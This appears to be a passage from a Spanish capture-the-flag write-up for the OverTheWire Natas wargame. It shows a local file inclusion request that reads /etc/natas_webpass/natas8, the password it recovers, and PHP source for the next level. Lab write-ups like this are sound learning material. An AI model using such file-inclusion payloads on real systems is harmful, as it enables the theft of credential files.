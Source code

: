 > Flag : bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

## Level 8

![](<../../.gitbook/assets/image (1).png>)

```python
Source: 

# <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

URL About: 
http://natas7.natas.labs.overthewire.org/index.php?page=about

URL Home: 
http://natas7.natas.labs.overthewire.org/index.php?page=home

# Probamos a cargar el fichero 

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

Output:

```python
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 
```

> Flag: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

## Level 9

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```python
Source: 

<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
```